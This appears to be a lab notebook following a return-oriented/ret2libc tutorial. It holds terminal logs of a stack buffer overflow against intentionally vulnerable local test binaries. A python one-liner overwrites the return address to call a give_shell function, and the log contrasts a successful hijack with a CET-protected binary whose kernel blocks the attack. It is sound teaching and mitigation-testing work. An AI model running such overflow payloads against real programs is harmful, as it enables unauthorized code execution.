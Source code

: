 Source: https://www.youtube.com/watch?v=ruJXvxXzyU8
Source git: https://github.com/nnamon/PracticalRet2Libc

1.
root@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation# ./vuln1-nocanary-execstack  Makefile                  vuln1-execstack           vuln2                     vuln3.c
vuln1-allprots            vuln1-nocanary            vuln2.c
vuln1.c                   vuln1-nocanary-execstack  vuln3
root@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation# ./vuln1-nocanary-execstack &
[1] 18729
root@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation# cat /proc/18729/maps
08048000-08049000 r-xp 00000000 08:05 18744533                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln1-nocanary-execstack
08049000-0804a000 r-xp 00000000 08:05 18744533                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln1-nocanary-execstack
0804a000-0804b000 rwxp 00001000 08:05 18744533                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln1-nocanary-execstack
f7d3b000-f7f10000 r-xp 00000000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7f10000-f7f11000 ---p 001d5000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7f11000-f7f13000 r-xp 001d5000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7f13000-f7f14000 rwxp 001d7000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7f14000-f7f17000 rwxp 00000000 00:00 0
f7f37000-f7f39000 rwxp 00000000 00:00 0
f7f39000-f7f3c000 r--p 00000000 00:00 0                                  [vvar]
f7f3c000-f7f3e000 r-xp 00000000 00:00 0                                  [vdso]
f7f3e000-f7f64000 r-xp 00000000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
f7f64000-f7f65000 r-xp 00025000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
f7f65000-f7f66000 rwxp 00026000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
ffefa000-fff1b000 rwxp 00000000 00:00 0                                  [stack]

[1]+  Stopped                 ./vuln1-nocanary-execstack


ffefa000-fff1b000 rwxp 00000000 00:00 0                                  [stack]



xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ python -c 'print "A"*28 + "BBBB"' | ./vuln2
What is the password:
Incorrect password!
Segmentation fault (core dumped)
xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$
xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ dmesg | tail -n 1
[1542228.793661] vuln2[18813]: segfault at 42424242 ip 0000000042424242 sp 00000000ffa548b0 error 14 in libc-2.27.so[f7d99000+1d5000]

sudo bash and kill it
root@xpf-desktop:~/code/PracticalRet2Libc-master/docs/lessonplans/1_practicalrop# kill -9 18729


2.  Hack by vuln2
xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ ./vuln2 &
[1] 18881
xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ What is the password:
[1]+  Stopped                 ./vuln2
xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ ps -ef | grep vuln
xpf      18881 18791  0 11:44 pts/2    00:00:00 ./vuln2
xpf      18884 18791  0 11:44 pts/2    00:00:00 grep --color=auto vuln

xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ cat /proc/18881/maps
08048000-08049000 r-xp 00000000 08:05 18744535                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln2
08049000-0804a000 r--p 00000000 08:05 18744535                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln2
0804a000-0804b000 rw-p 00001000 08:05 18744535                           /home/xpf/code/PracticalRet2Libc-master/src/presentation/vuln2
08754000-08776000 rw-p 00000000 00:00 0                                  [heap]
f7ce6000-f7ebb000 r-xp 00000000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7ebb000-f7ebc000 ---p 001d5000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7ebc000-f7ebe000 r--p 001d5000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7ebe000-f7ebf000 rw-p 001d7000 08:05 20447338                           /lib/i386-linux-gnu/libc-2.27.so
f7ebf000-f7ec2000 rw-p 00000000 00:00 0
f7ee2000-f7ee4000 rw-p 00000000 00:00 0
f7ee4000-f7ee7000 r--p 00000000 00:00 0                                  [vvar]
f7ee7000-f7ee9000 r-xp 00000000 00:00 0                                  [vdso]
f7ee9000-f7f0f000 r-xp 00000000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
f7f0f000-f7f10000 r--p 00025000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
f7f10000-f7f11000 rw-p 00026000 08:05 20447277                           /lib/i386-linux-gnu/ld-2.27.so
ff998000-ff9b9000 rw-p 00000000 00:00 0                                  [stack]

xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ cat /proc/sys/kernel/randomize_va_space
2
# value 2 means ASLR setting is enabled. Address Space Layout Randomization (ASLR) is a memory-protection process for operating systems that guards against buffer-overflow attacks. ... ASLR is used today on Linux, Windows, and MacOS systems.

xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ python -c 'print "A"*28 + "BBBB"' | ./vuln2
What is the password:
Incorrect password!
Segmentation fault (core dumped)
# So buffer overflow attack didn't work. And get the EIP SP



xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ dmesg | tail -n 1
[1542923.009539] vuln2[18938]: segfault at 42424242 ip 0000000042424242 sp 00000000ff819880 error 14 in libc-2.27.so[f7dbc000+1d5000]

get EIP from 32bit control,  RIP

xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ objdump -d vuln2 | grep give_shell
080484cb <give_shell>:
 8048536:       e8 90 ff ff ff          call   80484cb <give_shell>

xpf@xpf-desktop:~/code/PracticalRet2Libc-master/src/presentation$ (python -c 'import struct; print "A" * 28 + struct.pack("I", 0x080484cb)'; cat -) | ./vuln2
What is the password:
Incorrect password!
ls
Makefile        vuln1.c          vuln1-nocanary            vuln2    vuln3
vuln1-allprots  vuln1-execstack  vuln1-nocanary-execstack  vuln2.c  vuln3.c


Simple way to verify:
1.  non-CET binary, when you see "Access give shell!", which means it's be hacked:
"
# ./hack2.sh 
objdump -d vuln22 | grep give_shell
080484e6 <give_shell>:
 8048588:       e8 59 ff ff ff          call   80484e6 <give_shell>
(python2 -c 'import struct; print A * 28 + struct.pack(I, 0x080484e6)'; cat -) | ./vuln22
What is the password: 
Incorrect password!
Access give shell!
ls
hack2_cet.sh  hack.sh     v3.txt          vuln1.c          vuln1-nocanary-execstack  vuln22.c   vuln2_cet_dump.txt
hack2.sh      Makefile    v4.txt          vuln1-execstack  vuln2                     vuln2.c    vuln3
hack3.sh      README.txt  vuln1-allprots  vuln1-nocanary   vuln22                    vuln2_cet  vuln3.c
"


2. CET binary, this hack will be protected by #CP "control protection" in dmesg:
"
root@p-adls01 ~/cet_test/hack/rop_hack # ./hack2_cet.sh 
objdump -d vuln2_cet | grep give_shell
080491f6 <give_shell>:
 8049279:       e8 78 ff ff ff          call   80491f6 <give_shell>
(python2 -c 'import struct; print A * 28 + struct.pack(I, 0x080491f6)'; cat -) | ./vuln2_cet
What is the password: 
Incorrect password!
ls
./hack2_cet.sh: line 6: 14728 Exit 141                ( python2 -c 'import struct; print "A" * 28 + struct.pack("I", 0x080491f6)'; cat - )
     14729 Segmentation fault      (core dumped) | ./vuln2_cet
# dmesg | tail
...
[443082.116778] traps: vuln2_cet[14729] control protection ip:8049292 sp:ff84063c ssp:f7f53ff4 error:1(near-ret) in vuln2_cet[8049000+1000]
"

